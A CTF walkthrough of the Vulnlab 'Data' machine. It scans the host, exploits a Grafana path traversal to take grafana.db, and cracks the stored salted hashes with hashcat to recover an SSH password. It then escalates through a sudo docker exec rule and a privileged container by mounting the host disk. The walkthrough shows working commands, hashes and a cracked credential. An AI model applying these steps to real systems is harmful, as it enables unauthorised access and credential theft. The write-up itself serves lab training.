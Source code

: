```yaml
---
title: Data Vulnhab (English)
image: /assets/img/Anexos/Máquina%20Data.png
description: Down Vulnhab [Difuculty easy]
categories: [CTF,Vulnhab]
tags: [hacking,easy]
---
```




## Introduction
N/A
### Machine Description


- Name: Data
- Goal: Get two flags
- Difficulty: easy
- Operating System: Linux
- link: [Data](https://wiki.vulnlab.com/guidance/easy/data )

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/Vulnlab/M%C3%A1quina%20Data.pdf)






## Reconnaissance 


```shell
❯ sudo nmap -sSCV --min-rate 5000 -p- --open -n -Pn 10.10.101.106
[sudo] password for belin: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-06 20:45 CEST
Nmap scan report for 10.10.101.106
Host is up (0.21s latency).
Not shown: 63838 closed tcp ports (reset), 1695 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:52:bf:7b:a8:60:29:b7:e6:09:b0:e6:8e:e5:3e:4a (RSA)
|   256 37:a2:cb:57:c3:7a:c3:16:72:ed:e2:59:c4:25:d9:37 (ECDSA)
|_  256 dd:0a:c9:d3:fc:5b:dc:ca:b4:21:7e:91:2c:17:9d:28 (ED25519)
3000/tcp open  http    Grafana http
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Grafana
|_Requested resource was /login
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.48 seconds
```
We start the initial enumeration directly with `nmap` and nmap reported only de port 22 and 3000 open, the port 3000 has Grafana executing 

![](/assets/img/Anexos/Máquina%20Data-1.png)

In this case we can see the version which is always very risky so doing some search in Google I could easily find the CVE which is basically a Path traversal: 

## Exploitation 


![](/assets/img/Anexos/Máquina%20Data-2.png)

In order to exploit grafana and knowing that there's a ssh server running, we can get the hashes of grafana database (`grafana.db`) and the crack them. 

![](/assets/img/Anexos/Máquina%20Data-3.png)

In order to reach a better view we can dump the `grafana.db` directly to our hot machine and inspect it using `sqlite3`


```shell
sqlite> select * from user;
1|0|admin|admin@localhost||7a919e4bbe95cf5104edf354ee2e6234efac1ca1f81426844a24c4df6131322cf3723c92164b6172e9e73faf7a4c2072f8f8|YObSoLj55S|hLLY6QQ4Y6||1|1|0||2022-01-23 12:48:04|2022-01-23 12:48:50|0|2022-01-23 12:48:50|0
2|0|boris|boris@data.vl|boris|dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8|LCBhdtJWjl|mYl941ma8w||1|0|0||2022-01-23 12:49:11|2022-01-23 12:49:11|0|2012-01-23 12:49:11|0
```

After getting the hashes and their salt, also important for the next step, we can use the next tool in order to pass the hash and their respective salt to an hashcat readable format. In this case I used this tool from github:  

> https://github.com/iamaldi/grafana2hashcat


```shell
❯ python3 grafana2hashcat.py hashes

[+] Grafana2Hashcat
[+] Reading Grafana hashes from:  hashes
[+] Done! Read 2 hashes in total.
[+] Converting hashes...
[+] Converting hashes complete.
[*] Outfile was not declared, printing output to stdout instead.

sha256:10000:cGVwcGVy:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
sha256:10000:cGVwcGVy:epGeS76Vz1EE7fNU7i5iNO+sHKH4FCaESiTE32ExMizzcjySFkthcunnP696TCBy+Pg=


[+] Now, you can run Hashcat with the following command, for example:

hashcat -m 10900 hashcat_hashes.txt --wordlist wordlist.txt
```

Then we crack it, rockyou is enough
```shell
❯ hashcat -m 10900 hashes_hashcat /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

Successfully initialized the NVIDIA main driver CUDA runtime library.

Failed to initialize NVIDIA RTC library.

* Device #1: CUDA SDK Toolkit not installed or incorrectly installed.
             CUDA SDK Toolkit required for proper device support and utilization.
             Falling back to OpenCL runtime.

OpenCL API (OpenCL 3.0 CUDA 12.8.97) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #1: NVIDIA GeForce RTX 2060, 4480/5737 MB (1434 MB allocatable), 30MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Slow-Hash-SIMD-LOOP

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1029 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=:beautiful1
```

So now we can attempt to connect to ssh as boris, the only user we know: 
```shell
❯ ssh boris@10.10.92.169
boris@10.10.92.169's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1060-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Jul  7 08:55:01 UTC 2025

  System load:  0.0               Processes:              99
  Usage of /:   19.8% of 7.69GB   Users logged in:        0
  Memory usage: 24%               IP address for eth0:    10.10.92.169
  Swap usage:   0%                IP address for docker0: 172.17.0.1


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Sun Jan 23 13:11:53 2022 from 10.10.1.254
boris@ip-10-10-10-11:~$ 
```

## Privilege Escalation

As boris we can execute /snap/bin/docker exec * as root:
```shell
boris@ip-10-10-10-11:/$ sudo -l
Matching Defaults entries for boris on ip-10-10-10-11:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User boris may run the following commands on ip-10-10-10-11:
    (root) NOPASSWD: /snap/bin/docker exec *
```

So supposing the container's name is grafana, we can use it as the name of the contaaner: 

```shell
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec grafana whoami
grafana
```
We're good, now the next step is getting root access in the container 

```
boris@ip-10-10-10-11:/$ sudo -u root /snap/bin/docker exec -u root -it grafana bash
bash-5.1# 
```

Once as root I run `Deepce` and it reported that we hace privilaged access in the container so we can just mount the whole target machine in the docker: 

```bash
mount /dev/xvda1 /mnt/host
```

